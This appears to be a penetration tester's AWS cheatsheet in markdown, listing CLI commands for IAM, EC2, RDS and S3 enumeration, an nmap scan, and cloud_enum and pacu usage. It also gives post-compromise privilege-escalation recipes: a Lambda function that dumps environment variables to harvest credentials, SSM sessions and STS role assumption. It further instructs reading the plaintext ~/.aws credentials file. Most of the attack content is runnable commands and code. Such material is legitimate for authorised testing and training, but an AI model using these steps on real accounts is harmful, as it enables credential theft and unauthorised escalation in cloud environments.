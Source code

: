 ## AWS cheatsheet
- Create long term access with access key ID + secret key (you will be prompted to enter the values after the command runs)
```
aws configure --profile PROFILE_NAME
```
- Get configured identity information
```
aws sts get-caller-identity --profile PROFILE_NAME
```
- Set environment variables and configure identity (access key ID + secret key + session token)
```
set AWS_ACCESS_KEY_ID=KEY
set AWS_SECRET_ACCESS_KEY=SECRET_KEY
set AWS_SESSION_TOKEN=TOKEN
aws configure
```
- Local credentials are stored in `/home/USERNAME/.aws` on Linux and `C:\Users\USERNAME\.aws` on Windows. `cat credentials` under either of the directories to get plaintext credentials.

### User enumeration
- List all IAM users
```
aws iam list-users
```
- List a specific user's IAM groups
```
aws iam list-groups-for-user --user-name USERNAME
```
- List a specific user's attached managed IAM policies
```
aws iam list-attached-user-policies --user-name USERNAME
```
- List a specific user's attached inline IAM policies
```
aws iam list-user-policies --user-name USERNAME
```

### Group enumeration
- List all IAM groups
```
aws iam list-groups
```
- List a specific group's attached managed IAM policies
```
aws iam list-attached-group-policies --group-name GROUPNAME
```
- List a specific group's attached inline IAM policies
```
aws iam list-group-policies --group-name GROUPNAME
```

### Role enumeration
- List all IAM roles
```
aws iam list-roles
```
- List a specific role's attached managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-attached-role-policies --role-name ROLENAME
```

- List a specific role's inline managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-role-policies --role-name ROLENAME
```

### Policy enumeration
- List all IAM policies
```
aws iam list-policies
```
- Get a specific managed policy's information
```
aws iam get-policy --policy-arn POLICYARN
```

- List a specific policy's version information
```
aws iam list-policy-versions --policy-arn POLICYARN
```
- Get the information of a version of a specific policy
```
aws iam get-policy-version --policy-arn POLICYARN --version-id VERSIONID
```
- Get a specific user/group/role's inline policy document (use the last one with federated users)
```
aws iam get-user-policy --user-name USERNAME --policy-name POLICYNAME
aws iam get-group-policy --group-name GROUPNAME --policy-name POLICYNAME
aws iam get-role-policy --role-name ROLENAME --policy-name POLICYNAME
```

### EC2 instance enumeration
- List all EC2 instances for a specific region
```
aws ec2 describe-instances --region REGION
```
- Scan the external IP address of EC2 instances with `nmap`
```
nmap -sS -Pn IP1,IP2,IP3
```

### RDS enumeration
- List DB instances:
```
aws rds describe-db-instances --region REGION
```
- Get a DB's security group info:
```
aws ec2 describe-security-groups --group-ids SGID --region REGION
```

### Enumeration for initial foothold
- Use cloud_enum to enumerate the organization
```
./cloud_enum.py -k ORGNAME
```
- Use `pacu` for advanced enumeration (an other activities) with credentials. Specifically the `iam__privesc_scan` script.

### S3 bucket enumeration
- List all S3 buckets
```
aws s3 ls --profile PROFILE
```
- List a specific S3 bucket's content
```
aws s3 ls BUCKETNAME
```
- Download an object from an S3 bucket
```
aws s3 copy s3://BUCKETNAME/OBJECTNAME /PATH/TO/LOCAL/COPY
```

### Privilege escalation via lambda functions
- If the compromised account has access to create lambda functions and `iam:PassRole` privileges then a lambda function with high privileges can be created
- Store the following code in a file and name it `lambda_function.py`
```
import json
import subprocess

def lambda_handler(event, context):
    data = subprocess.Popen('env', stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    output, errors = data.communicate()
    return {
        'statusCode': 200,
        'body': json.dumps(output)
    }
```
- Zip the file in an archive and run the following command
```
aws lambda create-function --function-name privesc-fun --runtime python3.7 --zip-file fileb://my-function.zip --handler lambda_function.lambda_handler --role ROLEARN --region REGION --profile PROFILE
```
- List lambda functions to confirm the function was created
```
aws lambda list-functions
```
- Run the function to obtain short-lived credentials
```
aws lambda invoke --function-name "privesc-fun" --log-type Tail output.txt --region REGION --profile PROFILE
```

### Privilege escalation via SSM
- If the compromised account has `ssm:*` access then it has access to VMs and EC2 instances without needing a public IP address, SSH keys or username/password combinations
- Start a session in an EC2 instance
```
aws ssm start-session --target INSTANCE_ID --profile PROFILE --region REGION
```
- Enumerate the EC2 instance's role
```
aws sts get-caller-identity
```
- Continue enumeration and repeat the enumeration commands at the top of this document

### Privilege escalation via STS
- If the compromised account has `sts:*` privileges then you can assume roles
- Enumerate the existing roles and check for the `sts:AssumeRole` action for the role you currently hold
- Assume the role found and get a short-lived credential set
```
aws sts assume-role --role-arn FOUNDROLEARN --role-session-name SOMENAME
```
### More resources
- https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/
